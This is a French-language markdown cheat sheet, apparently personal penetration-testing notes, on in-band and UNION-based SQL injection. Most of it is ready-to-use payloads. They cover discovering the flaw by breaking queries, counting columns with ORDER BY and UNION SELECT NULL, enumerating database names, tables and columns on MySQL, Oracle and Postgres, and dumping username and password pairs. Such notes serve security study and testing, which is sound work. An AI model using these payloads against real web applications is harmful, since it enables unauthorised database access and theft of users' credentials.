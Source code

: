 # In-Band SQL injection

Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Découverte SQLi 

La clé pour découvrir l'injection SQL basée sur les erreurs est de: 

- Casser la requête SQL en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent des caractères comme:

```sh
' -> %27
" -> %22
# -> %23
; -> %3B
) -> %29
```

> Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

## Injection sur UNION

Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.



**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Cette instruction produit un message d'erreur vous informant que `l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine.`

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```

**2 - Afficher nos données**

Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**

On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables

-- ou sur Oracle

0 UNION SELECT null,table_name FROM all_tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'

-- ou sur Oracle

0 UNION SELECT null,column_name FROM all_tab_columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}

-- ou sur Oracle et Postgres
0 UNION SELECT username || '~' || password FROM {db_table_name}--

```


## Comment déterminer le nombre de colonnes requises de la requête d'origine ?

Lorsque vous effectuez une attaque UNION par injection SQL, il existe deux méthodes efficaces pour déterminer le nombre de colonnes renvoyées par la requête d'origine.

- Une méthode consiste à injecter une série de clauses `ORDER BY` et à incrémenter l'index de colonne spécifié jusqu'à ce qu'une erreur se produise.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

etc...
```

- La deuxième méthode consiste à soumettre une série de Tcharges utiles `UNION SELEC` spécifiant un nombre différent de valeurs nulles :

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

etc...

' UNION SELECT NULL FROM DUAL--
```

- Après avoir déterminé le nombre de colonnes requises, vous pouvez tester chaque colonne pour vérifier si elle peut contenir des données de `type chaîne`.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

-- Si le type de données de la colonne n'est pas compatible avec les données de chaîne, la requête injectée provoquera une erreur de base de données (Conversion failed when converting the varchar value 'a' to data type int.)

-- Si aucune erreur ne se produit et que la réponse de l'application contient du contenu supplémentaire, notamment la valeur de chaîne injectée, la colonne correspondante est alors adaptée à la récupération des données de chaîne.
```

- Lorsque vous avez déterminé le nombre de colonnes renvoyées par la requête d'origine et trouvé quelles colonnes peuvent contenir des données de chaîne, vous êtes en mesure de récupérer des données intéressantes.

- Récupération de plusieurs valeurs dans une seule colonne

```sql
' UNION SELECT username || '~' || password FROM users--
```
